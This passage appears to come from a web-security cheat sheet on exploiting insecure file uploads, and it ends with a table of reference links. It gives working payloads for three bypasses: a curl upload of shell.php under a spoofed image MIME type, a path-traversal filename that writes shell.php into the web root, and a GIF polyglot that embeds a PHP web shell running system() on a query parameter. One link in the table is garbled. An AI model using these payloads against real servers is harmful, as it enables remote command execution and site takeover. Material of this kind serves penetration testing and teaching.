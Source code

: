 ## MIME Type Spoofing
   - Change the MIME type in the HTTP request headers to something allowed, like `image/jpeg`:
   
```bash
curl -X POST -F "file=@shell.php;type=image/jpeg" http://<target_domain>/upload
```

## Upload File in Alternate Locations via Path Traversal
   - Exploit path traversal to place files in unintended directories:
   
```bash
POST /upload HTTP/1.1
Content-Disposition: form-data; name="file"; filename="../../../../../../var/www/html/shell.php"
```

## Using Polyglot Files
   - Embed malicious payloads in seemingly legitimate files (e.g., GIF files with embedded PHP):
   
```bash
echo -e "\x47\x49\x46\x38\x39\x61<?php system($_GET['cmd']);?>" > shell.gif
```

# Resources

|**Website**|**URL**|
|-|-|
|OWASP - Unrestricted File Upload|https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload|
|OWASP - Top Ten Security Risks|https://owasp.org/www-project-top-ten/|
|PortSwigger - File Upload Vulnerabilities|https://portswigger.net/web-security/file-upload|
|GitHub - PayloadAllTheThings - File Upload Vulnerabilities|[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure)||OWASP - File Upload Testing Cheat Sheet|https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html|
|GitHub - PayloadAllTheThings - File Upload|[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)|
|GitHub - TheLinuxGuy001 - Insecure File Upload Cheat Sheet|[[https://github.com/thelinuxguy001/insecure_file_upload_cheatsheet](](https://github.com/thelinuxguy001/insecure_file_upload_cheatsheet%5D()[https://github](https://github)|
|Veracode - Secure File Upload Guide|https://www.veracode.com/blog/secure-file-upload-guide|